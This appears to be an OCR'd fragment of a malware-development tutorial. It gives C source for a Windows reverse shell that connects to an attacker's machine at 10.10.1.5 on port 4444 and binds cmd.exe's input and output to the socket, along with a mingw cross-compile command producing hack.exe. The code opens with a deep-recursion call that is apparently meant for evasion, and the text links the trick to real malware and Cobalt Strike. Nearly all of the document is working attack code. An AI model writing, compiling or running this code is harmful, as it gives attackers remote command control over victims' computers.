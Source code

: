 ```c 
int main(int argc, char* argv[]) {
  
  // ip and port details for the attacker's machine
  char *attackerIP = "10.10.1.5";
  short attackerPort = 4444;

  int result = recFunction(1000000);

  // initialize socket library
  WSAStartup(MAKEWORD(2, 2), &socketData);

  // create socket object
  mainSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  connectionAddress.sin_family = AF_INET;
  connectionAddress.sin_port = htons(attackerPort);
  connectionAddress.sin_addr.s_addr = inet_addr(attackerIP);

  // establish connection to the remote host
  WSAConnect(mainSocket, (SOCKADDR*)&connectionAddress, sizeof(connectionAddress), NULL, NULL, NULL, NULL);

  memset(&startupInfo, 0, sizeof(startupInfo));
  startupInfo.cb = sizeof(startupInfo);
  startupInfo.dwFlags = STARTF_USESTDHANDLES;
  startupInfo.hStdInput = startupInfo.hStdOutput = startupInfo.hStdError = (HANDLE) mainSocket;

  // initiate cmd.exe with redirected streams
  CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo);

  exit(0);
}
```

### Compile 

```bash 
x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lws2_32
```

### Result 

Note : It did not crash on my machine but with higher value it may happen.

Trick popular techniques in real malware and tools such as Cobalt Stricke.
